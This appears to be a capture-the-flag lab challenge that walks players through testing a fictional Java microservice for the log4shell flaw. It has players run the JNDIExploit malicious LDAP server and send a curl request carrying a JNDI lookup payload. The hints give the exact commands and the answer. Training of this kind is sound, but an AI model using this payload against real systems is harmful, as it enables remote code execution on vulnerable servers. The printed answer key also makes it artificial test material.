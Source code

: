 # Task 4: Preparing the Way 🔬

## DESCRIPTION

Looks like the attacker has been using JNDIExploit in your environment! That means they were likely trying to exploit log4j. That’s bad news, especially since you know the SudoSingles™ image optimization microservice is written in Java and uses log4j.

You need to figure out if the "sudosingles-optimizer" service is vulnerable to the log4shell exploit. Now.

A quick and efficient way to figure out if you’re vulnerable is to try to do the exploit yourself. (Maybe not the most secure way, though, so don’t try this at home.)

## DETAILS

So, you're going to use JNDIExploit to see if "sudosingles-optimizer" is vulnerable. This challenge has many parts, so go through each one carefully.

If you’re not already aware, JNDIExploit is a tool that sets up a malicious LDAP server that can be used to execute arbitrary commands on a host running an application vulnerable to the log4shell exploit.

TLDR; you’re going to trick "sudosingles-optimizer" into connecting to a malicious server so you can run whatever commands we want inside its container.

You have to set up the server first. To do this, do the following:

1. Open the Terminal Emulator application from the dock on the bottom.
2. Navigate to the "hacker" folder.
3. Find your private ip address on the LAN network. There are many ways to find your IP address on Linux – I'll leave this one to you. Just make sure you write it down. The IP you find should look something like 10.0.XX.XX or 10.0.XX.XXX
4. Run the JNDIExploit-1.2-SNAPSHOT.jar file using Java, configuring it to start the malicious server listening on the private IP address you found in step 3 above.

If you see something like the below, you’re on the right track:

[+] LDAP Server Start Listening on 1389... 
[+] HTTP Server Start Listening on 9001... 


To test to make sure it’s running correctly, open another Terminal Emulator window and run the following command, where YOURIP is your local IP: 

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'

To complete this challenge, after you run the above command, enter the last line generated in the Terminal Emulator window where JNDIExploit is running, and hit “Submit.” If your answer doesn’t submit, double-check all the above steps. It could mean that something is wrong with the server command.

## NOTES

For the answer, enter the whole line, exactly as it appears in your terminal.

The answer will look something like this (fill in the blanks): [+] _______ ______: ___ 

(I know it’s annoying, I just want to be sure you’ve set this up correctly, or things will be even more annoying later.)

## SCORING

[+] Response code: 200

## HINTS

### HINT 1

To find your IP address, you can run many commands in the Linux terminal. Maybe there’s some way to use the hostname command to get what you want?

If you’re having trouble with JNDIExploit, maybe try looking at the "-h" flag?

### HINT 2

"hostname -I" will give you your private IP address.

"java –jar JNDIExploit-1.2-SNAPSHOT.jar -i PRIVATEIPADDRESS" will start the server properly.

Triple-check to make sure you’re using that IP address.

The answer is the whole last line from the Terminal Emulator window where you first ran the JNDIExploit program. Punctuation and all.

The answer is not "[+] Receive ClassRequest: SpringEchoTemplate.class"

### HINT 3

1. Open a Terminal Emulator window
2. Run "hostname -I" to get your ip address
3. Run "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i YOURIP"
4. Open another window and run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"
5. If you are successful, you should see a line that looks like the following show up in your original terminal window: "[+] Response code: 200"
